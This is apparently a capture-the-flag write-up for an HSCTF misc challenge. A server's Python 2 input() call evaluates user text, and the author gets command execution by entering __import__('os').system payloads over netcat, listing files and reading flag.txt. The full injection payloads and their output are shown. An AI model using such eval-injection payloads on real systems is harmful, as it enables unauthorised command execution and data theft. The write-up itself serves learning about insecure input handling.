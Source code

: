 We are provided a [python script](./data/talk.py). Let's have a look at the script.
```
#!/usr/bin/env python3
from time import sleep

print("Hello!")

sleep(1)

print("Hey, can you help me out real quick.")

sleep(1)

print("I need to know your age.")

sleep(1)

print("What's your age?")

age = input("> ")

... bunch of more print statements only
```
Hmmm. Only thing where we can affect is providing the age input, and it doesn't get manipulated anywhere... Let's just test some random input.
```
$ nc misc.hsctf.com 9001
Hello!
Hey, can you help me out real quick.
I need to know your age.
What's your age?
> test
Traceback (most recent call last):
  File "talk.py", line 18, in <module>
    age = input("> ")
  File "<string>", line 1, in <module>
NameError: name 'test' is not defined
```
Lol, so the provided script mentions python3 being used, seems like challenge server uses python2.
We all know python2's input is equivalent to `eval(raw_input)`, leading to RCE on server.
```
$ nc misc.hsctf.com 9001
Hello!
Hey, can you help me out real quick.
I need to know your age.
What's your age?
> __import__('os').system('ls .')
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
talk.py
tmp
usr
var
Wow!
Sometimes I wish I was 0
Well, it was nice meeting you, 0-year-old.
Goodbye!

$ nc misc.hsctf.com 9001
Hello!
Hey, can you help me out real quick.
I need to know your age.
What's your age?
> __import__('os').system('cat flag.txt')
hsctf{plz_u5e_pyth0n_3}
Wow!
Sometimes I wish I was 0
Well, it was nice meeting you, 0-year-old.
Goodbye
```
